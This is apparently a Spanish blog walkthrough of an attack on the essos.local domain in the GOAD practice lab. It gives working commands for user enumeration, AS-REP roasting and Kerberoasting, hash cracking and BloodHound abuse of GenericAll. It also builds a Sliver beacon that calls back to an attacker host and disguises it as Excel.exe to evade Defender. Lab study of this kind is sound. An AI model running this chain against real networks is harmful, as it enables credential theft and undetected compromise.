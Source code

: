 ```yaml
---
layout: single
title: Game of Active Directory - Parte 4
excerpt: "En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender."
date: 2024-04-24
classes: wide
header:
  teaser: /assets/images/Goad/logo_GOAD.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```


![](/assets/images/Goad/logo_GOAD.jpg)


En esta cuarta parte vamos a atacar el dominio essos.local. Conseguiremos credenciales con asreproasting, para luego ver con bloodhound que tenemos el rol GenericAll sobre otra cuenta, y nos aprovecharemos de eso para escalar privilegios. Finalmente obtendremos un beacon de sliver evadiendo el defender.

Sabemos que este dominio tiene una máquina con la ip 192.168.56.23 y un controlador de dominio en la ip 192.168.56.12, así que vamos a intentar conseguir un listado de usuarios.

Le podemos pedir a chatgpt que nos cree una lista con personajes de juego de tronos en el formato nombre.apellido para luego usar alguna herramienta que nos diga cuales de estos son válidos.

Después de pedirle varias veces que nos cree una lista más larga nos da una lista con 50 candidatos.


![](/assets/images/Goad/chatgpt.jpg)


Ahora creamos un archivo con la lista de usuarios y probamos con kerbrute los que son válidos.

```bash
kerbrute userenum --domain "essos.local" --dc 192.168.56.12 users_chatgpt.txt
```


![](/assets/images/Goad/kerbrute.jpg)


Y vemos que hay 5 usuarios válidos. Ahora podemos probar con la vulnerabilidad asreproasting para ver si conseguimos alguna credencial.

```bash
GetNPUsers.py essos.local/ -no-pass -usersfile users_essos.txt
```

![](/assets/images/Goad/missandei.jpg)


Y conseguimos el hash del usuario misandei. Vamos a intentar crackearlo con hashcat.


```bash
hashcat -m 18200 asreproastable.missandei /usr/share/wordlists/rockyou.txt
```

![](/assets/images/Goad/hashcat_missandei.jpg)


Ya tenemos credenciales válidas en el dominio `misandei:fr3edom`


Ahora usaremos bloodhound para recolectar información útil del dominio y buscar vulnerabilidades.


```bash
bloodhound.py --zip -c All -d "essos.local" -u "missandei" -p "fr3edom" -dc "meereen.essos.local" -ns "192.168.56.12"
```

![](/assets/images/Goad/bloodhound.jpg)


Arrancamos neo4j y bloodhound y subimos el archivo zip que nos ha generado el comando anterior.


![](/assets/images/Goad/neo4j.jpg)


En bloodhound buscamos el usuario missandei y pinchamos en outbound object control/First Degree Object Control y vemos que tiene el rol GenericAll sobre el usuario khal.drogo. Al disponer de esta ACL tenemos control sobre este usuario y podemos incluso cambiarle la contraseña.


![](/assets/images/Goad/bloodhound_khal.jpg)


Podríamos cambiar la contraseña del usuario khal.drogo, pero esto llamaría mucho la atención y el usuario se daría cuenta, con lo cual vamos a utilizar la herramienta que nos sugiere bloodhound, targetedkerberoast.py, que es un script de Python que puede, como muchos otros (por ejemplo, GetUserSPNs.py), imprimir hashes "kerberoast" para cuentas de usuario que tienen un SPN configurado. **Esta herramienta trae la siguiente característica adicional: para cada usuario sin SPN, intenta establecer uno (abuso de un permiso de escritura en el atributo servicePrincipalName), imprimir el hash "kerberoast" y eliminar el SPN temporal establecido para esa operación. Esto se llama Kerberoasting dirigido. Esta herramienta se puede utilizar contra todos los usuarios de un dominio, o se puede proporcionar en una lista, o un usuario proporcionado en la CLI.**


![](/assets/images/Goad/targeted.jpg)


![](/assets/images/Goad/targetedkerberoast.jpg)


Y nos da dos hashes, el de khal.drogo y el de sql_svc.


De nuevo con hashcat intentamos crackearlos.


```bash
hashcat -m 13100 -a 0 Kerberoastables.txt /usr/share/wordlists/rockyou.txt
```


![](/assets/images/Goad/hashcat_khal.jpg)



Y conseguimos otras credenciales `khal.drogo:horse`


Validamos la credencial con NetExec y vemos que khal.drogo tiene permisos de administrador en la 192.168.56.23 (BRAAVOS), y que puede conectarse por winrm.


![](/assets/images/Goad/nxc_khal.jpg)


Nos conectamos con evil-winrm a la máquina, pero ahora queremos conseguir un beacon de sliver para tener el equipo en nuestro command and control. Podríamos usar el comando utilizado en los artículos anteriores, pero vamos a hacerlo de otra forma. Esta vez crearemos un ejecutable desde sliver y lo trataremos para que sea capaz de evadir el defender.

Para ello, desde sliver, creamos un listener con `https --lport 8443` y generamos un ejecutable con `generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 192.168.56.1:8443 --name goad --save /tmp/beacon.exe -G`

![](/assets/images/Goad/generate.jpg)

Si subimos el ejecutable directamente a la máquina y lo ejecutamos nos lo va a pillar el defender, así que vamos a utilizar un par de herramientas para evadirlo.

Primero utilizaremos [donut](https://github.com/TheWover/donut), y luego [ScareCrow](https://github.com/Tylous/ScareCrow).

```bash
./donut -i ../beacon.exe -a x64 -o beacon.bin
```

```bash
./ScareCrow -I ../beacon.bin --domain microsoft.com
```

Esto nos genera un ejecutable llamado Excel.exe que es el que subiremos a la máquina a través de nuestra sesión con evil-winrm, para finalmente conseguir nuestro beacon de sliver evadiendo el defender.


![](/assets/images/Goad/donut.jpg)

![](/assets/images/Goad/scarecrow.jpg)

![](/assets/images/Goad/excel.jpg)

![](/assets/images/Goad/beacon_khal.jpg)


Para finallizar obtenemos una sesión, interactuamos con ella y ejecutamos `getsystem` para que nos llegue un nuevo beacon, esta vez de SYSTEM.

![](/assets/images/Goad/beacon_system.jpg)

